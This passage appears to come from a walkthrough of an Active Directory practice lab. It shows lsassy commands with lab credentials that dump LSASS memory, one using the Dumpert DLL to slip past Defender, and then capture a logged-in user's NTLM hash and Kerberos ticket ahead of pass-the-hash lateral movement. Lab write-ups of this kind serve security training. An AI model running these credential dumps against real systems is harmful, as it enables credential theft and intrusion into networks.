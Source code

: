 ```
lsassy -d north.sevenkingdoms.local -u jeor.mormont -p _L0ngCl@w_ 192.168.56.22 -m dumpertdll -O dumpertdll_path=/workspace/Outflank-Dumpert-DLL.dll
```


lassy without dumpert
```
lsassy -d north.sevenkingdoms.local -u jeor.mormont -p _L0ngCl@w_ 192.168.56.22
```
![screenshot](pics/lsassy_without_dumpert.png)


> The defender av is trigged with dumpert out of the box, but lsassy still get the time to retrieve the dump information.

- We then find out domain NTLM hash and TGT from the Lsass process
    
- Now imagine a privileged user launch a connection to castelblack
    
```
xfreerdp3 /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:castelblack.north.sevenkingdoms.local /cert:ignore
```
![screenshot](pics/lsassy_after_login.png)

- We relaunch the dump and now we can see we have the catelyn.stark ntlm hash and kirbi file in the results

### LSASS dump -> domain users NTLM or aesKey -> lateral move (PTH and PTK)
